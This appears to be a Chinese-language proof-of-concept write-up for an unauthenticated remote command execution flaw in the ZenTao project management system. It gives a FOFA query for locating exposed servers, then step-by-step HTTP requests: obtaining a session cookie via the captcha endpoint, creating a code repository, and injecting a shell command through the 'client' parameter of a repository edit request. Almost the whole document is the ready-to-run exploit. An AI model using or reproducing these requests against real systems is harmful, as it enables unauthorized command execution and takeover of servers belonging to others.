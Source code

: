 # 禅道未授权命令执行漏洞
## 资产搜索
fofa app="易软天创-禅道系统"	title="用户登录 - 禅道"
## POC
### 请求验证码
`GET /zentao/misc-captcha-user.html`  
记下来Cookie里面的zentaosid
![](img/misc-captcha-user.png)
### 建立代码库
（感觉是为了防止不存在代码库，存在的话不创建也行）   
⚠️重要：  
1. header里面，Content-Type，Cookie，Referer，X-Requested-With四个参数必须存在，Cookie里面的id必须是请求过验证码的id，Referer必须写正确（带端口的完整路径）   
2. data里面的name值是一个随机数，保证没有已存在的  
```http
POST /zentao/repo-create.html HTTP/1.1
Host: x.x.x.x:xxxx
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie: zentaosid={上面获取的id}; lang=zh-cn; device=desktop; theme=default; windowWidth=1920; windowHeight=944
Referer: http://{ip:port}/zentao/repo-edit-1-0.html
X-Requested-With: XMLHttpRequest
Content-Length: 113

product%5B%5D=25053&SCM=Gitlab&name={随机数}&path=&encoding=utf-8&client=&account=&password=&encrypt=base64&desc=&uid=
``` 
![](img/repo-create.png)
### 命令执行
⚠️重要：  
header里面，Content-Type，Cookie，Referer，X-Requested-With四个参数必须存在，Cookie里面的id必须是请求过验证码的id，Referer必须写正确（带端口的完整路径）    
```http
POST /zentao/repo-edit-10000-10000.html HTTP/1.1
Host: x.x.x.x:xxxx
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie: zentaosid={上面获取的id}; lang=zh-cn; device=desktop; theme=default; windowWidth=1920; windowHeight=944
Referer: http://{ip:port}/zentao/repo-edit-1-0.html
X-Requested-With: XMLHttpRequest
Content-Length: 26

SCM=Subversion&client=`id`
```
![](img/rce.png)
